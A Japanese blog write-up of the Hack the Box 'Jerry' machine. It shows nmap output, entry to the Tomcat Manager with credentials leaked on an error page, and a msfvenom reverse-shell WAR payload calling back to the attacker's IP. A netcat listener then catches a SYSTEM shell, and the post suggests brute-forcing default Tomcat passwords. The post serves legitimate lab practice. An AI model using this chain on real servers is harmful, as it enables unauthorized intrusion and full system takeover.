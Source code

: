 ```yaml
---
title: "【Hack the Box write-up】Jerry"
date:  "2020-05-22T15:04:05+07:00"
author:
  - "さんぽし"
description: "【Hack the Box write-up】Jerry"
draft: true
tags: ["writeup","Hack the Box"]
categories:
  - "security"
---
```

## はじめに
筆者は Hack the Box 初心者です。
何か訂正や補足、アドバイスなどありましたら、コメントか Twitter までお願いします。
[さんぽし(@sanpo_shiho) | Twitter](https://twitter.com/sanpo_shiho)
## cheat sheet

以下で cheat sheet としてツールの使い方などをまとめています。参考にしてください。
[github | sanposhiho/MY_CHEAT_SHEET](https://github.com/sanposhiho/MY_CHEAT_SHEET)

## machineについて
難易度は easy です。
![スクリーンショット 2020-05-22 14.54.05.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/97a1b7d6-4cba-5abc-fa38-ac13aab91be3.png)

easy の中でもかなり簡単な部類です。（Hack the Box 久々なのでリハビリがてらということで…

## nmap

```
kali@kali:~$ nmap -sV -sC 10.10.10.95 -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-22 01:49 EDT
Nmap scan report for 10.10.10.95
Host is up (0.26s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.78 seconds

```

## 8080ポート見てみる

![スクリーンショット 2020-05-22 16.58.15.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/f58acf6d-4b2f-0f5c-3519-3f88bb5cb8b2.png)

Manager App が怪しそうなので見てみます、Basic 認証が出てきますが適当に打ち込んで外しました。
![スクリーンショット 2020-05-22 17.06.37.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/03f54edf-6280-5f30-236e-c55821f4c501.png)
エラーページになんか user と password っぽいの見えてね…？

ということでキャッシュ削除して見えてた user/pass で入ると
![スクリーンショット 2020-05-22 17.09.39.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/670571cd-4e76-43be-5343-b6d4adf9fdaa.png)

入れました。

## msfvenom

![スクリーンショット 2020-05-22 20.19.44.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/f61b3de0-1e3f-fb54-b875-f4fb0997ec58.png)

war をあげれそうなので msfvenom で payload 生成します

```
kali@kali:~$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.19 LPORT=1212 -f war > paypay.war
Payload size: 1087 bytes
Final size of war file: 1087 bytes

```
これを upload します

nc で待ち受けると…

```
kali@kali:~$ nc -lnvp 1212
listening on [any] 1212 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

```
一気に admin で取れちゃいました

```
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,602,919,424 bytes free
C:\Users\Administrator\Desktop\flags>more "2 for the price of 1.txt"
more "2 for the price of 1.txt"
user.txt
********************************

root.txt
********************************

```

flag も 2 つ一気に取れちゃいましたね

## 終わりに
流石に簡単でした。
今月の目標はできる限り metasploit を使わないです

## 他のwriteupみてて参考になりそうだったもの
tomcat の defaultpasslist
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt
hydra とか使えば 403 ページで user/pass 見えてなくても（or 見えてることに気づかなくても）サクッと bruteforce できそう


